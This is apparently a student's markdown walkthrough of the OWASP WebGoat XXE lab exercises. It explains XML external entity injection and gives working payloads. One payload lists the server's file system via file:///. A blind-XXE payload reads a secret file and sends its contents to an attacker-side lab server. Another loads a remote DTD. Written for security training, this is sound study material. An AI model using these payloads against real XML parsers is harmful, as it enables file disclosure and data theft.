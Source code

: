 # XXE
XXE = XML External Entity Attack

## What is an XXE injection?
- attack against an application that parses XML input
- occurs when XML input containing a reference to an external entity is  processed by a weakly configured XML parser.
- may lead to the disclosure of confidential data, DoS, server side request forgery, etc.
- Distinctions in different XXE attacks:
  - Classic: an external entity is included in a local DTD
  - Blind: no output and or errors are shown in the response
  - Error: try to get the content of a resource in the error message

## XML Entity
- XML Entity allows tags to be defined that will be replaced by content when the XML Document is parsed.
- Three types of entities:
  - Internal entities
  - External entities
  - Parameter entities
- An entity must be created in the Document Type Definition (DTD)

Example:
```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

## List the Directory of the File System
Intercept comment submission with ZAP

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/10%20zap%20xxe%20request.PNG?token=ANjmpuYrSVcKPRGvRDvdV0UcGgpoCKuLks5bugWWwA%3D%3D)

Change comment section to:
```
<!DOCTYPE comment [
<!ELEMENT text (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///">
]>
<comment> <text>&xxe;</text></comment>
```

Results:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/11%20xxe%20files%20listed.PNG?token=ANjmpqFNvEDNxD_wEebCUjI8_uFITl8wks5bugvNwA%3D%3D)

## Modern REST Framework
Intercept comment submission with ZAP again

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/12%20xxe%20modern%20rest%20framework%20request.PNG?token=ANjmpibR-jC7UDO1c_elxkWTLYj0vjriks5bug5JwA%3D%3D)

Edit request:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/13%20modified%20request.PNG?token=ANjmppgBbtaqOBxHeZ4aL2A1AAIGUWmZks5bug6GwA%3D%3D)

Change Content-Type to:
```
Content-Type: application/xml
```

Change comment section to:
```
<!DOCTYPE comment [
<!ELEMENT text (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///">
]>
<comment> <text>&xxe;</text></comment>
```
## Blind XXE
Craft the file to be uploaded on WebWolf:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///Users/Brenda/.webgoat-8.0.0.M21/XXE/secret.txt">
<!ENTITY % entity "<!ENTITY secret SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=%file;'>">
%entity;
```

Intercept the request using burp:
![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/22%20XXE%203%20request.PNG?token=ANjmptLkxU5t8OcOP4uKMiZRraK1qAd7ks5bzJgDwA%3D%3D)

Change the content of the request to:
```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:9090/files/tingle/test.dtd">
%remote;
]>
<comment>
  <text>WebGoat 8.0 rocks... (EphsjyUIBk)&send;</text>
</comment>
```

And lesson is completed.
